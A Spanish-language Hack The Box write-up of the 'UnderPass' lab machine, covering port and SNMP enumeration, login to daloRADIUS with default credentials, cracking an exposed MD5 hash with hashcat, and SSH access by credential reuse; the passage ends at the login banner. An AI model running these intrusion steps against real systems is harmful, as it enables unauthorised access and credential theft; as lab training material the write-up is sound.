









+++
author = "Andrés Del Cerro"
title = "Hack The Box: UnderPass Writeup | Easy"
date = "2024-30-12"
description = ""
tags = [
    "HackTheBox",
    "UnderPass",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "SNMP Enumeration",
    "daloRADIUS",
    "Abusing Default Credentials",
    "Exposed MD5 User Hash",
    "Information Disclosure",
    "Hash Cracking",
    "Cracking",
    "Abusing Credentials Reuse",
    "Abusing mosh-server"
]

+++

# Hack The Box: UnderPass Writeup

Welcome to my detailed writeup of the easy difficulty machine **"UnderPass"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a 10.129.100.98 --ulimit 5000 -g
10.129.100.98 -> [22,80]
```

```console
nmap -p22,80 -sCV 10.129.100.98 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-30 17:38 CET
Nmap scan report for 10.129.100.98
Host is up (0.038s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.14 seconds
```

# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.100.98 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-30 17:46 CET
Nmap scan report for 10.129.100.98
Host is up (0.039s latency).
Not shown: 1493 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
23/udp    closed telnet
136/udp   closed profile
161/udp   open   snmp
19141/udp closed unknown
21282/udp closed unknown
22417/udp closed unknown
39213/udp closed sygatefw

Nmap done: 1 IP address (1 host up) scanned in 0.88 seconds
```

Encontramos que está el puerto 161/UDP correspondiente al servicio SNMP abierto, por lo cual vamos a enumerarlo mas adelante.
# HTTP Enumeration
Del escaneo inicial no encontramos nada relevante, así que vamos a enumerar el servicio web.
```console
whatweb http://10.129.100.98
http://10.129.100.98 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.129.100.98], Title[Apache2 Ubuntu Default Page: It works]
```

`whatweb` nos reporta que estamos frente a la página por defecto de `Apache2`


Podemos utilizar `feroxbuster` para fuzzear por directorios/recursos interesante pero no encontramos nada.
```console
feroxbuster -u http://10.129.100.98/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.100.98/
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       22l      105w     5952c http://10.129.100.98/icons/ubuntu-logo.png
200      GET      363l      961w    10671c http://10.129.100.98/
```

Y si fuzzeamos por extensiones, tampoco encontramos nada.
```console
feroxbuster -u http://10.129.100.98/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100 -x php,txt,tar,zip,html,bk

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.100.98/
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, txt, tar, zip, html, bk]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      363l      961w    10671c http://10.129.100.98/index.html
200      GET       22l      105w     5952c http://10.129.100.98/icons/ubuntu-logo.png
200      GET      363l      961w    10671c http://10.129.100.98/
```

Como no hemos encontrado nada de primeras, vamos a enumerar el servicio SNMP.

# SNMP Enumeration
Primero vamos a necesitar una community string válida para hacer solicitudes SNMP, para ello podemos utilizar `onesixtyone` y la lista `snmp-onesixtyone.txt` de `SecLists`.
```console
onesixtyone 10.129.100.98 -c /usr/share/wordlists/seclists/Discovery/SNMP/snmp-onesixtyone.txt -w 100
Scanning 1 hosts, 3218 communities
10.129.100.98 [public] Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
10.129.100.98 [public] Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
```

Encontramos la community string `public`, común en los servicios SNMP.

Con `snmpbulkwalk` podemos enumerar la información recabada por SNMP.
```console
snmpbulkwalk -v2c -c public 10.129.100.98
SNMPv2-MIB::sysDescr.0 = STRING: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (113511) 0:18:55.11
SNMPv2-MIB::sysContact.0 = STRING: steve@underpass.htb
SNMPv2-MIB::sysName.0 = STRING: UnDerPass.htb is the only daloradius server in the basin!
SNMPv2-MIB::sysLocation.0 = STRING: Nevada, U.S.A. but not Vegas
SNMPv2-MIB::sysServices.0 = INTEGER: 72
SNMPv2-MIB::sysORLastChange.0 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORID.1 = OID: SNMP-FRAMEWORK-MIB::snmpFrameworkMIBCompliance
SNMPv2-MIB::sysORID.2 = OID: SNMP-MPD-MIB::snmpMPDCompliance
SNMPv2-MIB::sysORID.3 = OID: SNMP-USER-BASED-SM-MIB::usmMIBCompliance
SNMPv2-MIB::sysORID.4 = OID: SNMPv2-MIB::snmpMIB
SNMPv2-MIB::sysORID.5 = OID: SNMP-VIEW-BASED-ACM-MIB::vacmBasicGroup
SNMPv2-MIB::sysORID.6 = OID: TCP-MIB::tcpMIB
SNMPv2-MIB::sysORID.7 = OID: UDP-MIB::udpMIB
SNMPv2-MIB::sysORID.8 = OID: IP-MIB::ip
SNMPv2-MIB::sysORID.9 = OID: SNMP-NOTIFICATION-MIB::snmpNotifyFullCompliance
SNMPv2-MIB::sysORID.10 = OID: NOTIFICATION-LOG-MIB::notificationLogMIB
SNMPv2-MIB::sysORDescr.1 = STRING: The SNMP Management Architecture MIB.
SNMPv2-MIB::sysORDescr.2 = STRING: The MIB for Message Processing and Dispatching.
SNMPv2-MIB::sysORDescr.3 = STRING: The management information definitions for the SNMP User-based Security Model.
SNMPv2-MIB::sysORDescr.4 = STRING: The MIB module for SNMPv2 entities
SNMPv2-MIB::sysORDescr.5 = STRING: View-based Access Control Model for SNMP.
SNMPv2-MIB::sysORDescr.6 = STRING: The MIB module for managing TCP implementations
SNMPv2-MIB::sysORDescr.7 = STRING: The MIB module for managing UDP implementations
SNMPv2-MIB::sysORDescr.8 = STRING: The MIB module for managing IP and ICMP implementations
SNMPv2-MIB::sysORDescr.9 = STRING: The MIB modules for managing SNMP Notification, plus filtering.
SNMPv2-MIB::sysORDescr.10 = STRING: The MIB module for logging SNMP Notifications.
SNMPv2-MIB::sysORUpTime.1 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.2 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.3 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.4 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.5 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.6 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.7 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.8 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.9 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.10 = Timeticks: (1) 0:00:00.01
HOST-RESOURCES-MIB::hrSystemUptime.0 = Timeticks: (114720) 0:19:07.20
HOST-RESOURCES-MIB::hrSystemDate.0 = STRING: 2024-12-30,16:53:31.0,+0:0
HOST-RESOURCES-MIB::hrSystemInitialLoadDevice.0 = INTEGER: 393216
HOST-RESOURCES-MIB::hrSystemInitialLoadParameters.0 = STRING: "BOOT_IMAGE=/vmlinuz-5.15.0-126-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0
"
HOST-RESOURCES-MIB::hrSystemNumUsers.0 = Gauge32: 0
HOST-RESOURCES-MIB::hrSystemProcesses.0 = Gauge32: 218
HOST-RESOURCES-MIB::hrSystemMaxProcesses.0 = INTEGER: 0
HOST-RESOURCES-MIB::hrSystemMaxProcesses.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

Encontramos tres cosas interesantes:
- Primero, que existe un usuario llamado `steve`
- Encontramos el dominio `underpass.htb`, lo añadimos al `/etc/hosts`

La tercera cosa es el mensaje encontrado.
```
UnDerPass.htb is the only daloradius server in the basin!
```

# Discovering daloRADIUS
Recordemos que existe un protocolo llamado RADIUS que es un protocolo de red para autenticar, autorizar y "accounting" (AAA) para usuarios que se conecten a un servicio en red.
Yo ya he trabajado con este protocolo y con Unifi Network así que tengo algo de experiencia con el.



Leyendo un poco de como funciona, vemos que está basado en FreeRADIUS y que utiliza PHP y soporta varias bases de datos.

Viendo [este video de Youtube](https://www.youtube.com/watch?v=B84NqI7vaWw) podemos ver como configurar este servicio y cuales son las rutas básicas para autenticarnos.

El endpoint para iniciar sesión se encuentra en `/daloradius/login.php`

En `/daloradius` podemos suponer que el recurso existe pero no tenemos capacidad de directory listing


Pero el recurso `/login.php` no existe.


Vamos a fuzzear de nuevo con `feroxbuster` ahora que sabemos que existe un directorio `daloradius` y que se utiliza PHP por detrás.

Como al principio encontramos algunos directorios, vamos a modificar el parámetro `-d` para fuzzear de forma automática dentro de los directorios que vayamos a encontrar.
```console
feroxbuster -u http://underpass.htb/daloradius/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 5 -t 100 -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://underpass.htb/daloradius/
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 5
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      327c http://underpass.htb/daloradius/library => http://underpass.htb/daloradius/library/
301      GET        9l       28w      323c http://underpass.htb/daloradius/doc => http://underpass.htb/daloradius/doc/
301      GET        9l       28w      327c http://underpass.htb/daloradius/contrib => http://underpass.htb/daloradius/contrib/
200      GET      412l     3898w    24703c http://underpass.htb/daloradius/ChangeLog
301      GET        9l       28w      325c http://underpass.htb/daloradius/setup => http://underpass.htb/daloradius/setup/
200      GET      340l     2968w    18011c http://underpass.htb/daloradius/LICENSE
301      GET        9l       28w      323c http://underpass.htb/daloradius/app => http://underpass.htb/daloradius/app/
301      GET        9l       28w      331c http://underpass.htb/daloradius/doc/install => http://underpass.htb/daloradius/doc/install/
301      GET        9l       28w      329c http://underpass.htb/daloradius/app/users => http://underpass.htb/daloradius/app/users/
301      GET        9l       28w      330c http://underpass.htb/daloradius/contrib/db => http://underpass.htb/daloradius/contrib/db/
301      GET        9l       28w      335c http://underpass.htb/daloradius/contrib/scripts => http://underpass.htb/daloradius/contrib/scripts/
200      GET      247l     1010w     7814c http://underpass.htb/daloradius/doc/install/INSTALL
301      GET        9l       28w      337c http://underpass.htb/daloradius/app/users/library => http://underpass.htb/daloradius/app/users/library/
301      GET        9l       28w      337c http://underpass.htb/daloradius/app/users/include => http://underpass.htb/daloradius/app/users/include/
301      GET        9l       28w      334c http://underpass.htb/daloradius/app/users/lang => http://underpass.htb/daloradius/app/users/lang/
301      GET        9l       28w      333c http://underpass.htb/daloradius/app/operators => http://underpass.htb/daloradius/app/operators/
302      GET        0l        0w        0c http://underpass.htb/daloradius/app/operators/index.php => home-main.php
301      GET        9l       28w      340c http://underpass.htb/daloradius/app/operators/static => http://underpass.htb/daloradius/app/operators/static/
301      GET        9l       28w      348c http://underpass.htb/daloradius/app/users/library/javascript => http://underpass.htb/daloradius/app/users/library/javascript/
301      GET        9l       28w      347c http://underpass.htb/daloradius/contrib/scripts/maintenance => http://underpass.htb/daloradius/contrib/scripts/maintenance/
301      GET        9l       28w      341c http://underpass.htb/daloradius/app/operators/library => http://underpass.htb/daloradius/app/operators/library/
301      GET        9l       28w      348c http://underpass.htb/daloradius/app/users/include/management => http://underpass.htb/daloradius/app/users/include/management/
301      GET        9l       28w      347c http://underpass.htb/daloradius/app/operators/static/images => http://underpass.htb/daloradius/app/operators/static/images/
302      GET        0l        0w        0c http://underpass.htb/daloradius/app/operators/static/index.php => ../index.php
302      GET        0l        0w        0c http://underpass.htb/daloradius/app/operators/static/images/index.php => ../../index.php
301      GET        9l       28w      338c http://underpass.htb/daloradius/app/operators/lang => http://underpass.htb/daloradius/app/operators/lang/
302      GET        0l        0w        0c http://underpass.htb/daloradius/app/operators/logout.php => login.php
301      GET        9l       28w      344c http://underpass.htb/daloradius/app/users/include/common => http://underpass.htb/daloradius/app/users/include/common/
301      GET        9l       28w      342c http://underpass.htb/daloradius/app/users/include/menu => http://underpass.htb/daloradius/app/users/include/menu/
301      GET        9l       28w      344c http://underpass.htb/daloradius/app/operators/static/css => http://underpass.htb/daloradius/app/operators/static/css/
301      GET        9l       28w      350c http://underpass.htb/daloradius/app/operators/static/css/icons => http://underpass.htb/daloradius/app/operators/static/css/icons/
302      GET        0l        0w        0c http://underpass.htb/daloradius/app/operators/static/css/index.php => ../../index.php
302      GET        0l        0w        0c http://underpass.htb/daloradius/app/users/lang/it.php => ../index.php
301      GET        9l       28w      355c http://underpass.htb/daloradius/app/operators/static/images/favicon => http://underpass.htb/daloradius/app/operators/static/images/favicon/
302      GET        0l        0w        0c http://underpass.htb/daloradius/app/operators/lang/it.php => ../index.php
301      GET        9l       28w      344c http://underpass.htb/daloradius/app/users/library/graphs => http://underpass.htb/daloradius/app/users/library/graphs/
302      GET        0l        0w        0c http://underpass.htb/daloradius/app/users/library/graphs/index.php => ../../index.php
301      GET        9l       28w      355c http://underpass.htb/daloradius/contrib/scripts/maintenance/monitor => http://underpass.htb/daloradius/contrib/scripts/maintenance/monitor/
```

Viendo los resultados podemos ver algunos 302 Redirect que nos llevan a `http://underpass.htb/daloradius/app/operators/static/index.php`

## Abusing Default Credentials
Si accedemos con nuestro navegador, podemos ver que se nos redirecciona de nuevo a el panel de autenticación.


Buscando en Google las credenciales por defecto del servicio, encontramos el combo 
```
administrator:radius
```


Y podemos comprobar que estas credenciales son válidas e iniciamos sesión.


## Exposed MD5 User Hash (Information Disclosure)
No encontramos vulnerabilidades asociadas a la versión `2.2` de daloRADIUS, pero vemos que existe un usuario creado en el sistema.


Por alguna razón el creador de daloRADIUS pensó que es buena idea dejar la credencial hasheada a plena vista al consultar los usuarios, por lo cual podemos ver que existe un usuario llamado `svcMosh` y su credencial hasheada.


### Hash Cracking w/hashcat
Podemos comprobar el hash con `hashid` y podemos deducir que seguramente se trate de MD5 ya que MD2 y MD4 es menos común.
```console
hashid
412DD4759978ACFCC81DEAB01B382403
Analyzing '412DD4759978ACFCC81DEAB01B382403'
[+] MD2
[+] MD5
[+] MD4
[+] Double MD5
[+] LM
[+] RIPEMD-128
[+] Haval-128
[+] Tiger-128
[+] Skein-256(128)
[+] Skein-512(128)
[+] Lotus Notes/Domino 5
[+] Skype
[+] Snefru-128
[+] NTLM
[+] Domain Cached Credentials
[+] Domain Cached Credentials 2
[+] DNSSEC(NSEC3)
[+] RAdmin v2.x
```

Podemos con `hashcat` crackear este hash utilizando el modo `0` que corresponde a un hash MD5.
```console
C:\Users\pc\Desktop\hashcat-6.2.6>.\hashcat.exe -a 0 -m 0 .\hash.txt .\rockyou.txt
hashcat (v6.2.6) starting

hiprtcCompileProgram is missing from HIPRTC shared library.

OpenCL API (OpenCL 2.1 AMD-APP (3584.0)) - Platform #1 [Advanced Micro Devices, Inc.]
=====================================================================================
* Device #1: Radeon RX 590 Series, 8064/8192 MB (6745 MB allocatable), 36MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 632 MB

Dictionary cache hit:
* Filename..: .\rockyou.txt
* Passwords.: 14344387
* Bytes.....: 139921525
* Keyspace..: 14344387

412dd4759978acfcc81deab01b382403:underwaterfriends

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 412dd4759978acfcc81deab01b382403
Time.Started.....: Mon Dec 30 18:15:00 2024 (0 secs)
Time.Estimated...: Mon Dec 30 18:15:00 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (.\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 21877.1 kH/s (8.51ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4718592/14344387 (32.90%)
Rejected.........: 0/4718592 (0.00%)
Restore.Point....: 2359296/14344387 (16.45%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 15841530 -> peque├▒atraviesa
Hardware.Mon.#1..: Temp: 54c Fan: 36% Util: 39% Core:1511MHz Mem:2000MHz Bus:16

Started: Mon Dec 30 18:14:53 2024
Stopped: Mon Dec 30 18:15:01 2024
```

### Abusing Credentials Reuse
Y vemos que tenemos un nuevo combo.
```
svcMosh:underwaterfriends
```

Podemos probar a conectarnos por SSH con este combo y vemos que conseguimos establecer sesión.
```console
ssh svcMosh@underpass.htb
The authenticity of host 'underpass.htb (10.129.100.98)' can't be established.
ED25519 key fingerprint is SHA256:zrDqCvZoLSy6MxBOPcuEyN926YtFC94ZCJ5TWRS0VaM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'underpass.htb' (ED25519) to the list of known hosts.
svcMosh@underpass.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon Dec 30 05:16:15 PM UTC 2024

  System load:  0.09              Processes:             227
  Usage of /:   88.5% of 3.75GB   Users logged in:       0
  Memory usage: 14%               IPv4 address for eth0: 10.129.100.98
